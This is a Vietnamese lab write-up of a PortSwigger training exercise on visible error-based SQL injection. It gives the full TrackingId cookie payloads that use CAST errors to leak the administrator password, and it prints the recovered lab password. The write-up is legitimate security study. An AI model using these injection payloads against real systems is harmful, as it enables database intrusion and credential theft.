







# Write-up: Visible error-based SQL injection

### Tổng quan
Ghi lại quá trình khai thác SQL injection dựa trên lỗi hiển thị (error-based) để lấy mật khẩu `administrator` và đăng nhập vào hệ thống.

### Mục tiêu
- Lấy mật khẩu `administrator` và đăng nhập vào hệ thống.

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=P4jmMuXY5V7FT1yM'
    ```
    - **Kết quả**: lỗi do dấu `'` được trả về
        
    - Thêm dấu comment `--` để xác nhận lỗi không còn xuất hiện
        ```
        TrackingId=P4jmMuXY5V7FT1yM'-- 
        ```
        

- Ép kiểu dữ liệu để xem lỗi được trả về 
    ```
    TrackingId=P4jmMuXY5V7FT1yM' AND CAST((SELECT 1) AS int)--
    ```
    - **Kết quả**: xác nhận lỗi
        

- Thêm điều kiện của boolean rồi gửi lại để xác nhận truy vấn hợp lệ
    ```
    TrackingId=P4jmMuXY5V7FT1yM' AND 1 = CAST((SELECT 1) AS int)--
    ```
    -**Kết quả**: truy vấn hợp lệ

- Kiểm tra user `administrator` có tồn tại không
    ```
    TrackingId=P4jmMuXY5V7FT1yM' AND 1 = CAST((SELECT username FROM users) AS int)--
    ```
    - **Kết quả**: Câu truy vấn của hệ thống có giới hạn kí tự
        

- Xóa id rồi gửi lại
    ```
    TrackingId=' AND 1 = CAST((SELECT username FROM users) AS int)--
    ```
    - **Kết quả**: xuất hiện lỗi nhiều hơn 1 dòng trả về 
        

- Gửi lại với LIMIT 1 để truy vấn trả về 1 dòng
    ```
    TrackingId='AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
    ```
    - **Kết quả**: tồn tại user `administrator` ở dòng 1
        


2. **Tạo payload**
- Tạo payload để leak mật khẩu user `administrator` qua thông báo lỗi truy vấn
    ```
    TrackingId='AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
    ```
    - **Kết quả**: lấy được mật khẩu `wj5blchqmmgeqqyvxg6l`

3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`wj5blchqmmgeqqyvxg6l`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
     

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi lỗi có thể nhìn.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.